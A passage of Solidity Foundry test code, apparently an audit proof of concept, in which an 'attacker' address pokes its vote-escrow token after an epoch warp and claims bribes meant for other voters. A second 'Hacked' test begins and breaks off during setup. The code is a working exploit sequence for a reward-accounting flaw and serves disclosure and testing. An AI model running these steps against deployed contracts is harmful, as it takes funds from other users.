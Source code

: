 ```solidity
        hevm.stopPrank();

        hevm.prank(Alice);
        voter.vote(tokenId2, pools, weights, 0);

        hevm.prank(Bob);
        voter.vote(tokenId3, pools, weights, 0);

        uint256 earnedBribes0 = IBribe(bribeAddress).earned(bal, tokenId1);
        assertEq(earnedBribes0, 0, "no bribes should be earned yet"); 
        console2.log("earnedBribes0", earnedBribes0); 

        earnedBribes2 = IBribe(bribeAddress).earned(bal, tokenId2); 
        console2.log("earnedBribes2", earnedBribes2); 

        earnedBribes3 = IBribe(bribeAddress).earned(bal, tokenId3); 
        console2.log("earnedBribes3", earnedBribes3);

        console2.log("Fast forward 1 epoch"); 
        hevm.warp(newEpoch()); 
        //voter.distribute();
        hevm.startPrank(attacker);
        voter.poke(tokenId1);
        hevm.stopPrank();

        uint256 earnedBribes1 = IBribe(bribeAddress).earned(bal, tokenId1); 
        console2.log("earnedBribes1", earnedBribes1); 

        hevm.prank(attacker);
        voter.claimBribes(bribes, tokens, tokenId1);
        console2.log("Bal balance of attacker: %s", IERC20(bal).balanceOf(attacker)); 
        
        earnedBribes2 = IBribe(bribeAddress).earned(bal, tokenId2); 
        console2.log("earnedBribes2", earnedBribes2); 

        earnedBribes3 = IBribe(bribeAddress).earned(bal, tokenId3); 
        console2.log("earnedBribes3", earnedBribes3);        

        hevm.prank(Alice);
        voter.claimBribes(bribes, tokens, tokenId2);
        console2.log("Bal balance of Alice: %s", IERC20(bal).balanceOf(Alice)); 
        
        hevm.prank(Bob);
        voter.claimBribes(bribes, tokens, tokenId3); 
        console2.log("Bal balance of Bob: %s", IERC20(bal).balanceOf(Bob)); 
    
        console2.log("Bal balance of Bribe contract: %s", IERC20(bal).balanceOf(bribeAddress)); 
        
    }

    function testBribeClaimingPoke_Hacked_2() public {

        
        address attacker = address(this) ; 
        uint256 tokenId1 = createVeAlcx(address(this), TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);
        tokenId3 = createVeAlcx(Bob, TOKEN_1, MAXTIME, false);
        address bribeAddress = voter.bribes(address(sushiGauge));

        // Add BAL bribes to sushiGauge
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);
        console2.log("Bal balance of Bribe contract: %s", IERC20(bal).balanceOf(bribeAddress)); 

```